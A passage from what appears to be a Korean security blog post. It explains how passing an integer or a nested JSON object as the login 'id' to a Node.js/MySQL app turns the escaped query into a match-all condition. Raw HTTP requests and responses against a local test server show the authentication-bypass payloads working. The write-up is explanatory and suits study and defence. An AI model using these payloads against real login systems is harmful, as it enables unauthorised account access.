 2을 넣으면 위와 같은 이유(text와 int의 비교)로 2로 시작하는 계정인 `2test`가 돌아옵니다. 

```
POST http://127.0.0.1:3000/login HTTP/1.1
Host: 127.0.0.1:3000
content-type: application/json
Content-Length: 10
Pragma: no-cache

{"id":123}
```

```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 28
ETag: W/"1c-zKsnpl5rZNcQDMNwS5q2y5F0oEs"
Date: Tue, 29 Sep 2020 13:13:20 GMT
Connection: keep-alive
Cache-Control: no-cache

[{"id":"123test","pw":"pw"}]
```

123을 넣으면 위와 같은 이유(text와 int의 비교)로 123으로 시작하는 계정인 `123test`가 돌아옵니다. 

**계정의 전체 ID를 모르는 상황에서 숫자로 시작하는 계정에 접근하거나 맨 위(idx가 가장 낮은)에 있는 Row에 접근할 수 있게 됩니다.**

### Case 2

```
POST http://127.0.0.1:3000/login HTTP/1.1
Host: 127.0.0.1:3000
content-type: application/json

{"id":{"id":"1"}}
```

이번에는 위와 같은 요청을 보내 보겠습니다.

`{"id":"1"}`는 escape 함수를 통해서 ``id` = '1'`와 같이 치환됩니다. 그러면 실제로 어떤 일이 일어날까요?

MySQL Query Log를 살펴봅시다!

![/assets/2020-10-01/202010_soo4.png](/assets/2020-10-01/202010_soo4.png)

<center><b>MySQL Query Log</b></center>

세상에... 🤦‍♂️🤦‍♂️🤦‍♂️

저런 Query문이라면 injection을 통해 1=1을 만든 결과와 다를 게 없겠는데요?

네, 맞습니다!!!

column 명을 알고 있는 경우 위와 같은 Injection이 가능하게 됩니다!
